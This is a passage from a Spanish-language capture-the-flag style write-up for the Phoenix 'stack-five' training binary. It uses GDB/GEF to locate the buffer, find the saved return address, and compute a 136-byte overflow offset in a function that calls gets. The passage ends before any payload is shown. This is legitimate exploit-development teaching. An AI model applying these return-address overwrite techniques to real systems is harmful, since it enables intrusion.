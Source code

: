 ```csharp
gef➤  print $rbp-0x80
$1 = (void *) 0x7fffffffe5a0
gef➤
```

ahora con el comando `info frame` vamos a ver el marco de pila, el **saved rip** es la **dirección de retorno** que el procesador guarda automáticamente en la pila cuando se llama a una función, con total de data que le enviamos aún no lo pisamos así que vamos a ver cual es la diferencia entre el buffer y el RIP

```csharp
gef➤   info frame
Stack level 0, frame at 0x7fffffffe630:
 rip = 0x4005a1 in start_level; saved rip = 0x4005c7
 called by frame at 0x7fffffffe650
 Arglist at 0x7fffffffe620, args: 
 Locals at 0x7fffffffe620, Previous frame's sp is 0x7fffffffe630
 Saved registers:
  rbp at 0x7fffffffe620, rip at 0x7fffffffe628
gef➤ 
```

Aunque en el código se reservaron 128 bytes para el buffer, podemos usar el comando find 0x7fffffffe5a0, +200, 0x4005c7 para ubicar en memoria la dirección de retorno (saved RIP) asociada a 0x4005c7.

En este ejemplo, buscamos a partir de la dirección de inicio del buffer (0x7fffffffe5a0) un rango de 200 bytes y localizamos el valor 0x4005c7

```csharp
gef➤  find 0x7fffffffe5a0, +200, 0x4005c7
0x7fffffffe628
1 pattern found.
gef➤ 
```

ahora lo que debemos hacer es una resta para saber el valor total del offset con el comando `printf "%i\n",0x7fffffffe628 - 0x7fffffffe5a0` y así tenemos el dato para el offset

```csharp
gef➤  printf "%i\n",0x7fffffffe628 - 0x7fffffffe5a0
136
gef➤
```

también podemos tener el offset con la herramienta pwn cyclic de la librería Pwntools, vamos a realizar este proceso desde el principio para que nos quede más claro, lo primero es correr el binario con gdb y poner el break para realizar la validación 

```csharp
user@phoenix-amd64:/opt/phoenix/amd64$ gdb -q stack-five
GEF for linux ready, type `gef' to start, `gef config' to configure
71 commands loaded for GDB 8.2.1 using Python engine 3.5
[*] 2 commands could not be loaded, run `gef missing` to know why.
Reading symbols from stack-five...(no debugging symbols found)...done.
gef➤  disass start_level
Dump of assembler code for function start_level:
   0x000000000040058d <+0>:	push   rbp
   0x000000000040058e <+1>:	mov    rbp,rsp
   0x0000000000400591 <+4>:	add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:	lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:	mov    rdi,rax
   0x000000000040059c <+15>:	call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:	nop
   0x00000000004005a2 <+21>:	leave  
   0x00000000004005a3 <+22>:	ret    
End of assembler dump.
gef➤  b *0x00000000004005a1
Breakpoint 1 at 0x4005a1
```